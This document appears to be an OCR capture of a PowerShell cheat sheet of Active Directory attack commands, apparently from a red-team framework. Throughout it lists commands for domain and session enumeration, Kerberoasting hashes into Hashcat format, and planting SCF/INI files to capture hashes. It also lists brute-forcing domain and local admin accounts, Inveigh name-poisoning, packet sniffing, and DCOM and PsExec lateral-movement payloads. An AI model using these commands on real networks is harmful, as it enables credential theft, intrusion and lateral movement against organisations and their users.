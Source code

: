 Get-NetUser -domain child.parent.com -Filter samaccountname=test

Get-NetGroup -domain child.parent.com | select samaccountname

# Domain / Network Tasks:

Invoke-BloodHound -CollectionMethod 'Stealth' -CSVFolder C:\temp\

Get-NetDomainController | Select name | get-netsession | select *username,*CName

Get-DFSshare | get-netsession | Select *username,*CName

Get-NetFileServer | get-netsession | Select *username,*CName

Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash

Write-SCFFile -IPaddress 127.0.0.1 -Location \\localhost\c$\temp\

Write-INIFile -IPaddress 127.0.0.1 -Location \\localhost\c$\temp\

Get-NetGroup | Select-String -pattern "Internet"

Invoke-Hostscan -IPRangeCIDR 172.16.0.0/24 (Provides list of hosts with 445 open)

Get-NetFileServer -Domain testdomain.com

Find-InterestingFile -Path \\SERVER\Share -OfficeDocs -LastAccessTime (Get-Date).AddDays(-7)

Brute-AD

Brute-LocAdmin -Username administrator

Get-PassPol

Get-PassNotExp

Get-LocAdm

Invoke-Pipekat -Target <ip-optional> -Domain <dom> -Username <user> -Password '<pass>' -Hash <hash-optional>

Invoke-Inveigh -HTTP Y -Proxy Y -NBNS Y -Tool 1

Get-Inveigh | Stop-Inveigh (Gets Output from Inveigh Thread)

Invoke-Sniffer -OutputFile C:\Temp\Output.txt -MaxSize 50MB -LocalIP 10.10.10.10

Invoke-SqlQuery -sqlServer 10.0.0.1 -User sa -Pass sa -Query 'SELECT @@VERSION'

Invoke-Runas -User SomeAccount -Password SomePass -Domain SomeDomain -Command C:\Windows\System32\cmd.exe -Args " /c calc.exe"

Invoke-DCOMPayload -Target <ip>

Invoke-DCOMProxyPayload -Target <ip>

Invoke-DCOMDaisyPayload -Target <ip>

Invoke-PsExecPayload -Target <ip> -Domain <dom> -User <user> -pass '<pass>' -Hash <hash-optional>

Invoke-PsExecProxyPayload -Target <ip> -Domain <dom> -User <user> -pass '<pass>' -Hash <hash-optional>
